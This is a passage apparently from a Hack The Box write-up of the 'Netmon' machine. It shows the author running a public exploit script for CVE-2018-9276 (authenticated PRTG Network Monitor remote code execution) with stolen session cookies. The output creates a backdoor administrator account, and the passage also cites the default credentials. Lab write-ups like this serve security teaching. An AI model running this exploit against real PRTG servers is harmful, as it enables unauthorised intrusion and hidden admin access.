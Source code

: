 ```
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE looks promising, all I have to do is use my cookies.

```
kali@kali:~/htb/Netmon$ ./46527.sh -u http://10.129.103.234 -c "_ga=GA1.4.1938792674.1614275825; _gid=GA1.4.24396096.1614275825; OCTOPUS1813713946=ezU5ODVBRkUwLTg4RjYtNDdDQy1BNkJDLTA3RDQ1QzgzNDYzRH0%3D; _gat=1"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'                                                        

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
kali@kali:~/htb/Netmon$ 
```

Ok, so we know the exploit works.

So I google about the exploit a bit and discover it is used through the notification tab in the admin panel.

```
if ($Args.Count -eq 0) {

   #No Arguments. Filename must be specified.

   exit 1;
  }elseif ($Args.Count -eq 1){

   $path = split-path $Args[0];

   if (Test-Path $Path)
   {
     $Text=Get-Date;
     $Text | out-File $Args[0];
     exit 0;
```